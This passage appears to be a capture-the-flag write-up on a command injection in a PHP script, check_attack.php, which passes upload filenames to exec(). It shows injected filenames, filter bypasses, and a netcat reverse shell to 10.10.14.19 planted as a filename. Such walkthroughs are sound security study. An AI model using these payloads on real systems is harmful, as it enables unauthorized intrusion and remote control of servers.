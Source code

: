 1. How do we exploit `check_attack.php`? (1)
	1. We are only interested in `exec(...)` because it is code execution.

		>  `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");` is vulnerable because `$value` is passed into `exec`
		{: .prompt-info }

	2. The variable `$value` are files residing in `/var/www/html/uploads/<file>`
	3.  In order to get to the `exec(...)` statement, we simply just have to create a file that is `!= 10_10_10_10.png`, not a valid IP Address.
	
2. How do we exploit `check_attack.php`? (2)
	1. We are able to do command injection by naming the files in `uploads` directory commands we want to execute

		```
		# Create our Command Injection Payload
		touch "/var/www/html/uploads/<Command Injection Payload>"
		touch ";id;whoami;whoami"

		# Our Payload is stored in $value variable
		$value = /var/www/html/uploads/<filename> 
		$value = /var/www/html/uploads/;id;whoami;whoami

		# What it looks like when command injected
		exec("nohup /bin/rm -f /var/www/html/uploads$value > /dev/null 2>&1
		exec("nohup /bin/rm -f /var/www/html/uploads;id;whoami;whoami > /dev/null 2>&1
		```

	2. Create payload

		> 3. Commands we would want to inject will be a reverse shell, most reverse shell requires the character `/`, however, it is not possible to create a file w/ `/` in its filename.
		> 4. Bypass/Overcome the restriction 
			> - We can `base64` encode the payload and then decode it pip it in `sh`
			> - Use `$(which bash)`
		> 5. Our command injection payload is directed into `/dev/null`, 
		> 6. Bypass/Overcome the restriction 
			> - simply add a random command (`;id`) so that that command will be passed to `/dev/null` instead.

7. Exploiting `check_attack.php`
	1. Monitor when `check_attack.php` is executed w/ `pspy64`
	2. Create our command injection file (1)

		```
		bash-4.2$ pwd
		/var/www/html/uploads

		bash-4.2$ touch ';nc 10.10.14.19 4444 -e $(which bash);id' 
		
		bash-4.2$ ls -l
		total 44
		-rw-r--r--  1 apache apache 12553 Sep 12 19:43 10_10_14_19.jpg
		-rw-r--r--  1 apache apache  5502 Sep 12 19:44 10_10_14_19.php.jpg
		-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_1.png
		-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_2.png
		-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_3.png
		-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_4.png
		-rw-rw-rw-  1 apache apache     0 Sep 12 23:02 ;nc 10.10.14.19 4444 -e $(which bash);id
		-r--r--r--. 1 root   root       2 Oct 30  2018 index.html
		```
